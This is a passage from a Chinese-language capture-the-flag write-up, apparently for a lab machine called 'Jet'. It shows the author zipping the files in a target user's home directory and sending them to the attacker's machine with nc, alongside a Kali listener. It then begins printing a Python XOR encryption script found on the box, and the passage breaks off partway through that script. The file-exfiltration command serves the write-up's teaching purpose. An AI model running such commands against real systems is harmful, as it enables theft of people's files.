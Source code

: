 ![](./images/image-132.png)

## Secret Message

在`alex`目录下发现了一些文件，将其`zip`打包用`nc`传出来

```
$  cd /home/alex
$  zip -r alex.zip .
$  nc 10.10.xx.xx 9855 < alex.zip

[root@kali] /home/kali/Jet 
❯ nc -lvnp 9855 > alex.zip  
```

一共有三个文件

```
[root@kali] /home/kali/Jet  
❯ cat crypter.py     
                                                                                                              
import binascii

def makeList(stringVal):
    list = []
    for c in stringVal:
        list.append(c)
    return list

def superCrypt(stringVal,keyVal):
    keyPos = 0
    key = makeList(keyVal)
    xored = []
    for c in stringVal:
        xored.append(binascii.hexlify(chr(ord(c) ^ ord(keyVal[keyPos]))))
        if keyPos == len(key) - 1:
            keyPos = 0
```